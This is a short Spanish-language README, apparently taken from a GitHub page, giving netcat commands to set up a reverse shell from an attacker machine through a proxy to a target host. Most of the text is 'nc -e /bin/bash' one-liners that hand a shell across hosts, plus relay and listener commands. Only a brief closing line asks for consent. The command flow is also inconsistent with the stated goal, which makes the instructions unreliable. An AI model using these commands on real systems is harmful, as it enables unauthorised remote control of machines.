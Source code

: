 README - Configuración de Reverse Shell a través de Proxy
Este README proporciona instrucciones sobre cómo configurar una reverse shell desde una máquina atacante a través de un proxy hacia una máquina final.

Configuración
Máquinas involucradas:
Máquina atacante: 172.32.84.192
Proxy: 172.31.84.193
Máquina final: 172.31.84.35
Pasos para la configuración:
Máquina atacante (172.32.84.192):

Ejecuta el siguiente comando para establecer una conexión a través del proxy y enviar la shell inversa:

bash
Copy code
nc -e /bin/bash 172.31.84.193 443 | nc -v 172.31.84.35 12345
Proxy (172.31.84.193):

Ejecuta el siguiente comando para escuchar en el puerto 443 y redirigir el tráfico entrante a la máquina final:

bash
Copy code
nc -lvp 443 | nc -v 172.31.84.35 12345
Máquina final (172.31.84.35):

Configura un listener para recibir la conexión entrante en el puerto 12345:

bash
Copy code
nc -lvp 12345 -e /bin/bash
Notas importantes:
Asegúrate de tener permisos adecuados y contar con el consentimiento del propietario del sistema antes de realizar este tipo de acciones.
La seguridad ética y responsable es esencial en todas las actividades relacionadas con la seguridad informática.
